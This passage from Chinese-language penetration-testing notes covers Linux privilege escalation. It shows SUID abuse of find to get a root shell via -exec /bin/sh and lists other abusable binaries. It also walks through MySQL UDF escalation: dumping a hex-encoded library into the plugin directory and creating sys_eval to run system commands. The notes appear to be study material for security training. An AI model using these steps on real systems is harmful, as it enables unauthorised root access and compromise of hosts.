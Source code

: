 ```bash
which find 查找
chmod u+s  /usr/bin/find
```

2.测试：切换普通用户，并执行find语句。执行 whoami 的结果为root,说明find的s权限，让恶意用户越权成功

```bash
cd /tmp

find dcro-ubuntu -exec "whoami"

find dcro-ubuntu -exec "/bin/sh"  临时交互平台，用的root用户权限，/bin/bash不行
```

###### 其他suid提权

```bash
bash less/more/man python/perl/ruby/lua awk tcpdump 等
```

‍

‍

#### Mysql UDF提权

> Linux提权和Windows所用的文件不同，用的.os

##### 要求

* MySQL配置中，secure_file_priv=&quot; &quot;
* 具有root权限，且mysql数据库以system权限运行
* 具有SQL语句的执行权限
* 导出目录可写
* 系统中的selinux处于关闭状态

‍

##### 提权过程

前提shell连接，数据库连接

1. 查找插件库的路径

    * 查看mysql的plugin目录路径

      ```bash
      show variables like '%plugin%';
      ```
2. 找到对应数据库操作系统的UDF库文件
3. 将udf库文件转为十六进制

    * ```bash
      select unhex('udf十六进制内容') into dumpfile '/usr/lib64/mysql/plugin/ichunqiu.so';
      ```
4. 在数据库中写入udf库所支持的函数

    ```bash
    create function sys_eval returns string soname 'ichunqiu.so';
    ```
5. 加载函数
6. 执行

    ```bash
    select sys_eval('whoami');
    ```

‍

‍

‍
